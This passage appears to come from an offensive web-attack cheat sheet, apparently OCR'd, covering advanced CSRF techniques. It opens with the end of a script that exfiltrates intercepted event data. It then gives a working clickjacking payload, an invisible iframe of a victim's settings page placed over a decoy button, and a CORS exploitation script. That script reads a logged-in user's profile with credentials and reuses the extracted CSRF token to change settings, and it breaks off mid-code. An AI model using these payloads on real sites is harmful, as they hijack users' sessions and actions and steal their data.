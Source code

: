             body: JSON.stringify({data: event.data})
          });
        };
      </script>
      ```
    - Impact:
      - Real-time data exfiltration
      - Long-term persistent connections
      - Manipulation of bidirectional communications

  - **Clickjacking-enhanced CSRF**
    - Combines UI redressing with CSRF
    - Tricks users into performing required interactions
    - Implementation:
      ```html
      <style>
        iframe {
          opacity: 0.00001;
          position: absolute;
          z-index: 2;
          top: 0;
          left: 0;
        }
        .decoy-button {
          position: absolute;
          z-index: 1;
          width: 200px;
          height: 50px;
          top: 285px;
          left: 150px;
          background-color: #4CAF50;
          color: white;
          font-size: 16px;
          border-radius: 5px;
        }
      </style>
      <iframe src="https://victim.com/settings" width="800" height="600"></iframe>
      <button class="decoy-button">Download Free Report</button>
      ```
    - Impact:
      - Bypasses CSRF protections requiring user interaction
      - Enables multi-step attacks with required clicks
      - Can defeat advanced security measures like custom confirm dialogs

  - **Cross-Origin Resource Sharing (CORS) exploitation**
    - Leverages misconfigured CORS policies
    - Enables direct API access with credentials
    - Implementation:
      ```html
      <script>
        fetch('https://api.victim.com/user/profile', {
          method: 'GET',
          credentials: 'include'
        })
        .then(response => response.json())
        .then(data => {
          // Extract CSRF token or session data
          fetch('https://api.victim.com/user/settings', {
            method: 'PUT',
            credentials: 'include',
            headers: {
              'Content-Type': 'application/json',
              'X-CSRF-Token': data.csrf_token
            },